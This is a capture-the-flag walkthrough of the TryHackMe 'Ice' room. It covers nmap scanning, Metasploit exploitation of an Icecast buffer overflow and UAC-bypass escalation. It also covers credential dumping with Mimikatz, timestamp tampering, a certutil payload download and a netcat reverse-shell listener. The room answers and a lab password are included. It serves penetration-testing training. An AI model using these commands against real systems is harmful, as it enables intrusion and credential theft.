

### Task 1 : Connect

Connect to our network using OpenVPN. Here is a mini walkthrough of connecting:

1. **Go to your** [**access**](http://tryhackme.com/access) **page and download your configuration file.**



> No answer required

2. **Use an OpenVPN client to connect. In my example I am on Linux, on the access page we have a windows tutorial.**

```
sudo openvpn filename.ovpn
```

(change "filename.ovpn" to your config file)

When you run this you see lots of text, at the end it will say Initialization Sequence Completed

> No answer required

3. **You can verify you are connected by looking on your access page. Refresh the page**

You should see a green tick next to Connected. It will also show you your internal IP address.



4. **You are now ready to use our machines on our network!**

> No answer required

5. **Now when you deploy material, you will see an internal IP address of your Virtual Machine.**

> No answer required

### Task 2 : Recon

1. **Deploy the machine! This may take up to three minutes to start.**

> No answer required

2. **Launch a scan against our target machine, I recommend using a SYN scan set to scan all ports on the machine. The scan command will be provided as a hint, however, it's recommended to complete the room '**[**Nmap**](https://tryhackme.com/room/furthernmap)**' prior to this room.**

```
nmap -Pn -sS -A -T4 -p- -vv -oN ice_nmapscan 10.10.2.67
```

#### Command Options

*   **-Pn :** No ping (Consider the machine is online)
*   **-sS :** Stealth Scan (SYN Scan)
*   **-A :** Aggressive Scan (OS Detection + Service Versioning + Default Nmap Scripts)
*   **-T4 :** Timing Template (Aggressive)
*   **-p- :** Scan all ports
*   **-vv :** Very Verbose Output
*   **-oN :** Save output to normal file


3. **Once the scan completes, we'll see a number of interesting ports open on this machine. As you might have guessed, the firewall has been disabled (with the service completely shutdown), leaving very little to protect this machine. One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on?**

On my first scan I was not able to find the service that was required to complete this question so I ran the scanner again and got the service

```
nmap -Pn -sS -A -T4 — script=vuln -p- -vv -oN ice_nmapscan1 10.10.2.67
```



> 3389


3. **What service did nmap identify as running on port 8000? (First word of this service)**

> Icecast

4. **What does Nmap identify as the hostname of the machine? (All caps for the answer)**

> DARK-PC

### Task 3 : Gain Access

1.  **Now that we've identified some interesting services running on our target machine, let's do a little bit of research into one of the weirder services identified: Icecast. Icecast, or well at least this version running on our target, is heavily flawed and has a high level vulnerability with a score of 7.5 (7.4 depending on where you view it). What type of vulnerability is it? Use** [**https://www.cvedetails.com**](https://www.cvedetails.com) **for this question and the next.**

Search for Icecast and look for CVE that has an Metasploit module

[CVE-2004-1561 : Buffer overflow in Icecast 2.0.1 and earlier allows remote attackers to execute arbitrary code via an HTTP request with](https://www.cvedetails.com/cve/CVE-2004-1561/)



> Execute Code Overflow

2. **What is the CVE number for this vulnerability? This will be in the format: CVE-0000–0000**

> CVE-2004–1561

3. **Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`**

> No answer required

4. **After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? This module is also referenced in '**[**RP: Metasploit**](https://tryhackme.com/room/rpmetasploit)**' which is recommended to be completed prior to this room, although not entirely necessary.**


> exploit/windows/http/icecast_header

5. **Let's go ahead and select this module for use. Type either the command `use icecast` or `use 0` to select our search result.**

> No answer required

6. **Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?**



> RHOSTS

6. **First let's check that the LHOST option is set to our tun0 IP (which can be found on the** [**access**](https://tryhackme.com/access) **page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit`**

**Note:** The tun0 IP can be found using "ip a show tun0" and looking under inet



> No answer required


### Task 4 : Escalate

1. **Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?**

> meterpreter

2. **What user was running that Icecast process? The commands used in this question and the next few are taken directly from the '**[**RP: Metasploit**](https://tryhackme.com/room/rpmetasploit)**' room.**


> Dark

3. **What build of Windows is the system?**

> 7601

4. **Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?**

> x64

5. **Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete***



> No answer required

6. **Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit) for the first returned exploit?**

> exploit/windows/local/bypassuac_eventvwr

7. **Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell.**



> No answer required

8. **Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT`**


> No answer required

9. **Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER`**

> No answer required

10. **Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?**

> LHOST

11. **Set this option now. You might have to check your IP on the TryHackMe network using the command `ip addr`**

> No answer required

12. **After we've set this last option, we can now run our privilege escalation exploit. Run this now using the command `run`. Note, this might take a few attempts and you may need to relaunch the box and exploit the service in the case that this fails.**


> No answer required

13. **Following completion of the privilege escalation a new session will be opened. Interact with it now using the command `sessions SESSION_NUMBER`**



> No answer required

14. **We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files ?**


> SeTakeOwnershipPrivilege

### Step 5 : Looting

1. **Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service, the service responsible for authentication within Windows. First, let's list the processes using the command `ps`. Note, we can see processes being run by `NT AUTHORITY\SYSTEM` as we have escalated permissions (even though our process doesn't).**



> No answer required

2. **In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?**

Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell.

> spoolsv.exe

3. **Migrate to this process now with the command `migrate -N PROCESS_NAME`**


> No answer required

4. **Let's check what user we are now with the command `getuid`. What user is listed?**

> NT AUTHORITY\SYSTEM

5. **Now that we've made our way to full administrator permissions we'll set our sights on looting. Mimikatz is a rather infamous password dumping tool that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz)**



> No answer required

6. **Loading kiwi into our meterpreter session will expand our help menu, take a look at the newly added section of the help menu now via the command `help`.**


> No answer required

7. **Which command allows up to retrieve all credentials?**

> creds_all

8. **Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)**


> Password01!

### Task 6 : Post-Exploitation

1. **Before we start our post-exploitation, let's revisit the help menu one last time in the meterpreter shell. We'll answer the following questions using that menu.**

> No answer required

2. **What command allows us to dump all of the password hashes stored on the system? We won't crack the Administrative password in this case as it's pretty strong (this is intentional to avoid password spraying attempts)**


> hashdump

3. **While more useful when interacting with a machine being used, what command allows us to watch the remote user's desktop in real time?**



> screenshare

4. **How about if we wanted to record from a microphone attached to the system?**

> record_mic

5. **To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? Don't ever do this on a pentest unless you're explicitly allowed to do so! This is not beneficial to the defending team as they try to breakdown the events of the pentest after the fact.**


> timestomp

6. **Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this?**

Golden ticket attacks are a function within Mimikatz which abuses a component to Kerberos (the authentication system in Windows domains), the ticket-granting ticket. In short, golden ticket attacks allow us to maintain persistence and authenticate as any user on the domain.



> golden_ticket_create

7. **One last thing to note. As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP). As this is a workstation, we'd likely kick whatever user is signed onto it off if we connect to it, however, it's always interesting to remote into machines and view them as their users do. If this hasn't already been enabled, we can enable it via the following Metasploit module: `run post/windows/manage/enable_rdp`**



We need an RDP client if order to login into the system. On Linux we can use "Remmina"

```
sudo apt install remmina
```



> No answer required

### Task 7 : Extra Credit

**As you advance in your pentesting skills, you will be faced eventually with exploitation without the usage of Metasploit. Provided above is the link to one of the exploits found on Exploit DB for hijacking Icecast for remote code execution. While not required by the room, it's recommended to attempt exploitation via the provided code or via another similar exploit to further hone your skills.**

The exploit that is linked in the room while correct does not have any instructions on to use it. So we will have to search online if we can find an exploit with instructions

[GitHub - ivanitlearning/CVE-2004-1561: Icecast Header Overwrite buffer overflow RCE < 2.0.1 (Win32)](https://github.com/ivanitlearning/CVE-2004-1561)

```
git clone https://github.com/ivanitlearning/CVE-2004-1561.git
```

In the repo there is an C file which is the exploit that we are going to use to try and gain access into the system. On going through the code we see there is an array called shellcode that we need to change with respect to our system in order for the exploit to work



As shown in the code gets use msfvenom to generate the shellcode. Then change the value of the array shellcode in the code with the value that we generated


**Note:** The value for LHOST is the IP Address of tun0 which can be found by using "ip a show tun0" and looking under inet

Lets compile the code

```
gcc 568-edit.c -o 568
```

Before we use the exploit we need to setup a listener on our system to be able to connect to the reverse shell

```
sudo netcat -nvlp 443
```




As we can see we have got managed to gain access into the system.



We see that we are logged in as user DARK our next goal should be escalate our privileges. We can use the Windows Exploit Suggester script to see if we can find any vulnerabilities on the system that we can use to elevate our privileges.

[GitHub - AonCyberLabs/Windows-Exploit-Suggester: This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git

curl https://bootstrap.pypa.io/pip/2.7/get-pip.py
python get-pip.py  
python -m pip install xlrd==1.2.0
```



```
./windows-exploit-suggester.py --database 2021-03-12-mssb.xls --systeminfo ../systeminfo.txt > exploits.txt
```


**Note:** `[E]` exploitdb PoC, `[M]` Metasploit module, `[*]` missing bulletin

The script was able to find multiple vulnerabilities that are possibly present on the system. MS14–058 looks like it allows us to execute remote code on the system so lets see we can find code for this vulnerability.

[windows-kernel-exploits/CVE-2014-4113-Exploit.rar at master · SecWiki/windows-kernel-exploits · GitHub](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS14-058/CVE-2014-4113-Exploit.rar)


Now we need to create a payload so that we run the payload using the exploit we are able to get an session with system privileges.



Now that we have our payload and exploit lets upload then on to the target machine. For this on your machine we can setup an Python HTTP Server and use certutil on Windows to download the files from the server

```
python3 -m http.server 1234

certutil -urlcache -f http://<server-ip-address>:<port>/<filename> <output-filename>
```


[Downloading Files with Certutil - Red Team Notes](https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil)

So that we are able to connect to the reverse shell that the payload with create we need to setup an netcat listener

```
netcat -nvlp 1235
```

Lets run the payload using the exploit on the target machine




We have got an connection and when we run "whoami" we see that we are `nt authority\system` which means we gained admin access on the system

Now lets try to crack the password for the user DARK for that we will make use of tool called "[Mimikatz](https://github.com/gentilkiwi/mimikatz)"

[GitHub - gentilkiwi/mimikatz: A little tool to play with Windows security](https://github.com/gentilkiwi/mimikatz)

Lets upload the executable file to the Windows system



By using the command "lsadump::sam" can can dump the contents of the SAM database that consist of the hashes of the users on the system


Lets use the Hash on Crackstation and see if we are able to crach the hash

[CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/)


And there we go we have even managed to crack the password.

That's all. Happy Hacking :)